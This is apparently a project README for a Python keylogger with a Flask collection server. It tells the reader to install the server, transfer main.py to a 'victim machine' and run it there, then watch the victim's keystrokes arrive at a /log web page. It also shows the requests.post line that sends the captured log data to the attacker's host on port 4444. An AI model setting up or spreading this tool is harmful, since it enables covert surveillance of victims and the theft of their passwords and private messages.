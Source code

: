 **Setup:**
1) Install Flask server on your host machine : pip install Flask
2) Run the server: python server.py
3) Transfer the main.py to victim machine
4) Run main.py on victim machine : python main.py
5)**Accessing the Logs:**
To view the logs collected by the server, follow these steps:
Open a Web Browser: Launch your preferred web browser (e.g., Chrome, Firefox, Safari).
Visit the URL: Enter the following URL in the address bar: http://<host ip>:<port>/log
As soon as your victim starts typing your log file on your server will be updated. (if not refresh the page)
----------------------------------------------------------------------------------------------------------------
In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).
